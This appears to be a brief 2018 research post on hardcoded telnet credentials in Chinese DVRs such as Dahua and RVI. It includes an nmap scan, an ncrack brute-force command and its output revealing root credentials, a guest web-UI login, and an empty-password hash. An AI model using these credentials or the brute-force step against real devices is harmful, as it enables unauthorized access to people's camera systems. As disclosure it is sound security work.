 <h1>Hardcoded telnet login\password in Chinese DVR, like Dahua, RVI.</h1>

<br/>Also, it can be rebranded and sell under a different name.
<br/>
<br/>Nmap report looks interesting:
<br/>Nmap scan report for 192.168.100.15
<br/>Host is up (0.0050s latency).
<br/>Not shown: 65527 closed ports
<br/>
<br/>PORT      STATE    SERVICE        VERSION
<br/>
<br/>23/tcp    open     telnet         BusyBox telnetd
<br/>81/tcp    open     http           uc-httpd 1.0.0 #Web-ui, You can get guest access with guest\<empty> credentials
<br/>445/tcp   filtered microsoft-ds
<br/>4090/tcp  open     ssl/omasgport?
<br/>9527/tcp  open     unknown
<br/>9528/tcp  open     unknown
<br/>34567/tcp open     dhanalakshmi? #This port using for remote veiw in CMS
<br/>34599/tcp open     unknown
<br/>
<br/>Device type: WAP
<br/>Running: Linux 2.4.X
<br/>OS CPE: cpe:/o:linux:linux_kernel:2.4.36
<br/>OS details: DD-WRT v24-sp1 (Linux 2.4.36)
<br/>Network Distance: 5 hops
<br/>Service Info: Host: LocalHost
<br/>
<br/>And, with ncrack i "recover" hardcored telnet creds.
<br/>
<br/>ncrack 192.168.100.15:23 -U logins.txt -P passwords.txt
<br/>Starting Ncrack 0.6 ( http://ncrack.org ) at 2018-05-26 13:06
<br/>Discovered credentials for telnet on 192.168.100.15 23/tcp:
<br/>192.168.100.15:23 23/tcp telnet: 'root' 'xc3511'
<br/>Ncrack done: 1 service scanned in 27.06 seconds.
<br/>Ncrack finished.
<br/>
<br/>Web-ui configuration files are stored in /mnt/mtd/Config/, but i did not understand password hash in file Account1.
<br/>Also, in my case sed did not work. Empty password hash - tlJwpbo6.
<br/>
<br/>Still work on this.
